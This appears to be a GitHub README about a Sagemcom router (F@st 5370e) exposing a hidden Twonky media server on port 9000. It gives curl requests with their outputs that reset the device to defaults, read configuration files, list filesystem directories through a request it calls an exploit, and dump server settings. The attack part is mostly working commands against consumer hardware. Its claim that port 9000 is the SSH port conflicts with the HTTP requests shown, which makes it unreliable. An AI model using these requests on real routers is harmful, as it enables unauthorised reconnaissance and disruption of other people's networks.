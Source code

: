 
##### Find more info in configuration file in this repo. 

###### .......and so on.......

###### Default login screen:

![Screenshot](https://nr1.nu/sagem/sagemcom-default-login.png)

###### Go visit 192.168.1.1:9000 to enjoy the hidden Twonky interface:

![Screenshot](https://nr1.nu/sagem/twonky-sagemcom.png)

###### Please notice that 9000 is the SSH port, you can reset settings by:

    curl 192.168.1.1:9000/rpc/reset
    > reset to defaults!

###### Check webconfig/config.js for more rpc files, few examples:

    curl 192.168.1.1:9000/nmc/rpc
    curl 192.168.1.1:9000/webconfig/config.js

![Screenshot](https://nr1.nu/sagem/sagemcom-5370e.png)

##### List folders by an exploit:

    curl http://192.168.1.1:9000/rpc/dir?=path=/bin/ls

    001D/
    003D/lxc
    004D/run
    005D/usr
    006D/www
    007D/root
    008D/Music
    009D/Video
    010D/telia
    011D/Picture
    012D/twonky
    016D/mnt
    018D/overlay
    020D/rom
    023D/tmp
    024D/var

##### Get all info about twonky

    curl http://192.168.1.1:9000/rpc/get_all

    friendlyname=myTwonky Library at mynetwork
    ip=
    nicrestart=1
    v=0
    platform=UNIX
    httpport=
    ininame=twonkyvision-mediaserver.ini
    inipath=/usr/local/mediaserver
    read_only=0
    ssdpttl=4
    ssdpheartbeattimeout=100
    appdata=/var/twonky
    clearclientsonrestart=0
    disablelocalssdp=1